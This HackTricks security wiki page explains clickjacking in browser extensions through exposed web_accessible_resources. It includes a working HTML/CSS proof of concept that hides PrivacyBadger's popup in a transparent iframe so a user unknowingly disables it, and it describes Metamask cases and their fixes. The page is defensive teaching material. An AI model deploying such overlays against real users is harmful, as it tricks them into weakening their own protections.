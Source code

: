 # BrowExt - ClickJacking

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

This page is going to abuse a ClickJacking vulnerability in a Browser extension.\
If you don't know what ClickJacking is check:

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

Extensions contains the file **`manifest.json`** and that JSON file has a field `web_accessible_resources`. Here's what [the Chrome docs](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources) say about it:

> These resources would then be available in a webpage via the URL **`chrome-extension://[PACKAGE ID]/[PATH]`**, which can be generated with the **`extension.getURL method`**. Allowlisted resources are served with appropriate CORS headers, so they're available via mechanisms like XHR.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

The **`web_accessible_resources`** in a browser extension are not just accessible via the web; they also operate with the extension's inherent privileges. This means they have the capability to:

* Change the extension's state
* Load additional resources
* Interact with the browser to a certain extent

However, this feature presents a security risk. If a resource within **`web_accessible_resources`** has any significant functionality, an attacker could potentially embed this resource into an external web page. Unsuspecting users visiting this page might inadvertently activate this embedded resource. Such activation could lead to unintended consequences, depending on the permissions and capabilities of the extension's resources.

## PrivacyBadger Example

In the extension PrivacyBadger, a vulnerability was identified related to the `skin/` directory being declared as `web_accessible_resources` in the following manner (Check the original [blog post](https://blog.lizzie.io/clickjacking-privacy-badger.html)):

```json
"web_accessible_resources": [
  "skin/*",
  "icons/*"
]
```

This configuration led to a potential security issue. Specifically, the `skin/popup.html` file, which is rendered upon interaction with the PrivacyBadger icon in the browser, could be embedded within an `iframe`. This embedding could be exploited to deceive users into inadvertently clicking on "Disable PrivacyBadger for this Website". Such an action would compromise the user's privacy by disabling the PrivacyBadger protection and potentially subjecting the user to increased tracking. A visual demonstration of this exploit can be viewed in a ClickJacking video example provided at [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm).

To address this vulnerability, a straightforward solution was implemented: the removal of `/skin/*` from the list of `web_accessible_resources`. This change effectively mitigated the risk by ensuring that the content of the `skin/` directory could not be accessed or manipulated through web-accessible resources.

The fix was easy: **remove `/skin/*` from the `web_accessible_resources`**.

### PoC

```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
    width: 430px;
    height: 300px;
    opacity: 0.01;
    float: top;
    position: absolute;
}

#stuff {
    float: top;
    position: absolute;
}

button {
    float: top;
    position: absolute;
    top: 168px;
    left: 100px;
}

</style>

<div id="stuff">
    <h1>
    Click the button
    </h1>
    <button id="button">
      click me
    </button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```

## Metamask Example

A [**blog post about a ClickJacking in metamask can be found here**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). In this case, Metamask fixed the vulnerability by checking that the protocol used to access it was **`https:`** or **`http:`** (not **`chrome:`** for example):

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

**Another ClickJacking fixed** in the Metamask extension was that users were able to **Click to whitelist** when a page was suspicious of being phishing because of `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`. As that page was vulnerable to Clickjacking, an attacker could abuse it showing something normal to make the victim click to whitelist it without noticing, and then going back to the phishing page which will be whitelisted.

## Steam Inventory Helper Example

Check the following page to check how a **XSS** in a browser extension was chained with a **ClickJacking** vulnerability:

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## References

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
